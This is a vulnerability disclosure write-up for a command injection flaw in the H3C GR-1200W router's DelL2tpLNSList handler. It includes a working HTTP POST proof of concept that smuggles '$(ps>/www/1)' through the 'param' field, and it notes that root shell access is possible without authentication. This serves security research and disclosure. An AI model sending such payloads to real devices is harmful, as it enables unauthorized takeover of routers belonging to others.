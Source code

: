 # H3C GR-1200W (<=MiniGRW1A0V100R006) Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202102/1383837_30005_0.htm

### Product Information

H3C GR-1200W MiniGRW1A0V100R006 router, the latest version of simulation overview：

![image-20220724213031606](img/image-20220724213031606.png)

## Vulnerability details

The H3C GR-1200W (<=MiniGRW1A0V100R006)  router was found to contain a command insertion vulnerability in DelL2tpLNSList.This vulnerability allows an attacker to execute arbitrary commands through the "param" parameter.

![image-20220724213415656](img/image-20220724213415656.png)

In the `DelL2tpLNSList` function, it format the `param` parameter we entered into `V13` through the `snprintf` function, and execute our command through the system function. We can execute our orders through $(command).

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.0.124:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 553
Origin: https://192.168.0.124:80
DNT: 1
Connection: close
Cookie: JSESSIONID=5c31d502
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=DelL2tpLNSList&param=1; $(ps>/www/1);
```

![image-20220725142032977](img/image-20220725142032977.png)

![image-20220725142137070](img/image-20220725142137070.png)

The above figure shows the POC attack effect

![image-20220724220055672](img/image-20220724220055672.png)

Finally, you also can write exp to get a stable root shell without authorization.
